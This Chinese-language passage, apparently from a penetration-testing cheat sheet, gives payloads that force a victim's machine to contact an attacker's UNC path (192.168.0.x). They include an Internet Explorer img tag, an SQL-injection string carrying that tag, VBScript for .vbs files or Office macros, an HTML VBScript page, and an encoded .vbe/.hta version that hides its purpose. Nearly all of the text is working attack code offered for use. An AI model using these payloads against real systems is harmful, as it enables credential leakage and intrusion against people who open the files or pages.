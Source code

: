 

**IE**

IE可以解析UNC路径，利用方法如下：

```
&lt;img src="\\192.168.0.1\aa"&gt;
```

你也可以将它注入到XSS中，或你发现的SQL注入场景中，例如：

```
http://host.tld/?id=-1' union select 1,'&lt;img src="\\192.168.0.1\aa"&gt;';%00
```



**VBScript**

你可以将下面的代码存储为“.vbs”文件，或者内嵌到Word/Excel文件的宏里面：



```
Set fso = CreateObject("Scripting.FileSystemObject")
Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
```

你也可以将它应用到WEB网页中，不过这种方法只适用于IE：



```
S&lt;html&gt;
&lt;script type="text/Vbscript"&gt;
&lt;!--
Set fso = CreateObject("Scripting.FileSystemObject")
Set file = fso.OpenTextFile("//192.168.0.100/aa", 1)
//--&gt;
&lt;/script&gt;
&lt;/html&gt;
```

下面是编码过的版本，你可以将它进行编码，并存储为“.vbe”文件：

```
#@~^ZQAAAA==jY~6?`}`'ZM2mO2`}`4%+1YcEUmDb2YbxocorV?H/O+h6(LnmDE#=?nO,sksn`{`0dWcGa+U:+XYsbVcJJzf*cF*cF*2  yczmCE~8#XSAAAA==^#~@
```

也可以在HTML文件中应用它。不过还是只适用于IE。你需要将它存储为“.hta”文件，利用方法如下：



```
&lt;html&gt;
&lt;script type="text/Vbscript.Encode"&gt;
&lt;!--
#@~^ZQAAAA==jY~6?`}`'ZM2mO2`}`4%+1YcEUmDb2YbxocorV?H/O+h6(LnmDE#=?nO,sksn`{`0dWcGa+U:+XYsbVcJJzf*cF*cF*2  yczmCE~8#XSAAAA==^#~@
//--&gt;
&lt;/script&gt;
&lt;/html&gt;
```
